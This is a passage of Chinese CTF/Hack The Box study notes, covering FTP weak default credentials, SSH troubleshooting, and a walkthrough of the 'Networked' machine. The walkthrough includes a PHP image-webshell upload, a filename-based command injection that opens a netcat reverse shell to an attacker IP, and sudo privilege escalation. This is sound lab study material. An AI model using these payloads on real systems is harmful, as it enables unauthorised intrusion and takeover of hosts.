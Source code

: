 - FTP：匿名登陆常见弱口令，`anonymous:空`、`ftp:ftp`、`user:pass`。
- 以太坊：以太坊是一个运行智能合约的分布式平台。以太坊类比操作系统，智能合约类比应用。
- 智能合约：智能合约被编译为以太坊虚拟机字节码存储在以太坊的区块链上，通过网络中的每个以太坊节点运行EVM（Ethereum Virtual Machine，以太坊虚拟机）实现并执行指令。如果说比特币是二维世界的话，那么以太坊就是三维世界，可以实现无数个不同的二维世界。传统Web服务的后端业务作为只能合约在以太坊上运行。
- EML格式：是微软为Outlook和Outlook Express开发的文件格式；是将邮件归档后生成的文件，保留着原来的HTML格式和标题。
- Linux登陆：使用私钥登陆服务端仍然要输密码，网上多是说由于服务端文件权限配置问题，各种600、700权限设置，天花乱坠，其实这里还可能是客户端问题。不管是使用ssh-copy-id，`ssh-copy-id -i id_rsa_mac kali@172.16.58.129`，还是直接创建.ssh目录并写入authorized_keys文件，`mkdir .ssh; vim authorized_keys`，默认服务端的权限配置都是已经配好了的，无需更改，因为这里只要求authorized_keys文件的其他组O没有写权限-w即可。至于客户端问题，需要使用-vvT参数输出debug log来观察，`ssh -vvT kali@172.16.58.129`。e.g 我本地是配合config文件使用SSH的，生成的服务器私钥文件名并不为默认id_rsa，log中提示SSH已遍历了一些默认的私钥地址，但并无此私钥，因此需要-i指定私钥位置，或在config中设置服务器连接配置。
- John：默认自带一些服务秘钥转HASH的脚本，kali的在/usr/share/john目录下。
- SSH代理：也可以利用SSH设置代理，`ssh -D 1080 -fN -i bobby.key.enc bobby@chainsaw.htb`
- 这是一个关于智能合约的漏洞环境，从智能合约的定义、编写、编译、部署到交互，可以拓展学习不少有趣的东西。

### 九、Networked

环境概述：Linux、Easy、20'、24 Aug 2019

渗透流程：Nmap -> Web Enumeration -> RCE –> Shell as apache -> Command Injection in check_attack.php –> Shell as guly –> User Flag -> Command Injection in the Network Script Name –> Root Shell –> Root Flag

知识点：

- 信息泄露：使用gobuster枚举目录，发现备份文件。
- tar：解压缩`tar zxvf backup.tar `，压缩`tar zcvf test.tar file1 file2`。
- GetShell：制作图片马，重命名为test.php.png，上传并触发RCE，获取apache shell。
- GetShell：guly用户家目录存在定时任务，每三分钟执行某PHP文件，内含RCE code，`exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`，`$value`参数可控且为指定目录下的文件名，使用touch可新建名为`'; nc 10.10.xx.xx 1338 -c bash'`文件，将代码注入并执行，触发RCE，获取guly shell。
- Linux提权：使用`sudo -l`查看当前用户可以使用sudo的范围情况，如下显示guly可以以root权限调用changename.sh，`sudo ./usr/local/sbin/changename.sh`；此文件是设置网络配置的脚本，参考[exp](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)从而提权。

```
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

思考：

- 代码审计：作者并没有解释为何上传特殊文件导致RCE的。这里是由于lib.php文件的getnameUpload()函数使用了implode()获取文件后缀，导致可以上传`.php.png`后缀的文件，使用`php -a`获得交互来测试，如下；RCE是PHP和Apache配置错误引发的问题，将`.php*`的文件按php执行，参考[paper](https://blog.remirepo.net/post/2013/01/13/PHP-and-Apache-SetHandler-vs-AddHandler)。

```
php > $filename="image.php.png";
php > $pieces = explode('.',$filename); print_r($pieces);
Array
(
    [0] => image
    [1] => php
    [2] => png
)
php > $name= array_shift($pieces); echo $name;
image
php > $name = str_replace('_','.',$name); echo $name;
image
php > $ext = implode('.',$pieces); echo $ext;
php.png
```
